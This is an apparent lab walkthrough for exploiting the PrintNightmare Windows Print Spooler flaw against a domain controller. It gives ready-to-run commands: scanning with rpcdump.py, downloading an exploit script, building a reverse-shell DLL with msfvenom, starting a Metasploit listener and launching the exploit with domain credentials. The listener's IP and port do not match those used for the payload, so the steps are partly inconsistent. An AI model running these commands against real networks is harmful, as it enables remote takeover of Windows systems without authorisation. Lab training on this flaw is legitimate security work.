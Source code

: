 ## Scanning Vulnerable hosts with rpcdump.py

```powershell
# rpcdump.py @DC-IP | egrep 'MS-RPRN|MS-PAR'
$ rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

**_Expected Output :_**

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```


![](https://i.imgur.com/GkOuslZ.png)


### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /opt/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ sudo wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```


![exploit for the PrintNightmare](https://i.imgur.com/jCILEM9.png)


Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory


```powershell
$ sudo msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.157 LPORT=7777 -o reverse.dll
```




Next we will start a listener with `msfconsole`. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## Exploiting the PrintNightmare

Navigate to the tmp directory as that is where we have our `.py` file. Type in the following command to start the exploit. Please do change the **IP** address to your lab environment. 
**Note :** the first **IP** is the **Domain Controller-IP** and the second **IP** is the kali machine

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.0.149 '\\192.168.0.157\smb\reverse.dll'
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)